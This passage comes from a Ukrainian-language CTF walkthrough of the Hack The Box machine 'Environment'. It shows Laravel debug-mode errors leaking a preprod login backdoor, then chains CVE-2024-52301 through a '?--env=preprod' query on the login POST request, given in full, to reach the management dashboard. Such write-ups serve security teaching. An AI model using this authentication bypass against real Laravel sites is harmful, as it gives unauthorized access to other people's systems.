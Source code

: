 Спроба доступу до `http://environment.htb/upload` або `http://environment.htb/mailing` показує нам версію PHP (8.2.28) і Laravel (11.30.0), а також повідомлення про помилку, яке вказує, що ми можемо надсилати лише POST запити до цих ендпоінтів

Ця сторінка помилки також розкриває деякий внутрішній код, що означає, що додаток працює в **режимі дебагу:**

![image](imgs/error-laravel.png)

Використовуючи розширення Wappalyzer в браузері, я можу ппідтвердити, що веб-сайт використовує PHP і Laravel.

## Дослідження вразливостей і експлуатація

Після перевірки вразливостей для Laravel фреймворку я знайшов цю високо оцінену CVE: https://nvd.nist.gov/vuln/detail/CVE-2024-52301

Але поки що це здається марним, оскільки наш додаток уже в стані дебагу.

Також здається, що Laravel 11.30.0 вразливий до reflected XSS (only in debug mode), [CVE-2024-13918](https://nvd.nist.gov/vuln/detail/CVE-2024-13918), але це не корисно для нашого випадку, оскільки у нас немає жертви для атаки.

### Гра з параметрами на login endpoint

Якщо модифікувати на `http://environment.htb/login` параметри в тілі POST запиту можна отримати різні типи помилок залежно від параметрів, які ми змінюємо:

![image](imgs/login-debug.png)

Після видалення будь-якого значення з параметру `remember` в тілі запиту, бекенд розкриває деяке додаткове середовище додатку, `preprod`, призначене для використання розробниками:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}
```

### Бекдор, який залишили самі розробники

Отакої, сам розробник залишив бекдор для нас! Дуже мило з його сторони!

Тепер ми можемо підключити нашу [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301), щоб змінити середовище на `preprod` і зайти на ендпоінт (`/management/dashboard`), до якого ми не повинні мати доступу.

Згідно цьому [PoC](https://github.com/Nyamort/CVE-2024-52301), ми можемо додати `?--env=preprod` в кінці POST запиту на login ендпоінт для активації preprod середовища:

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 132
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
```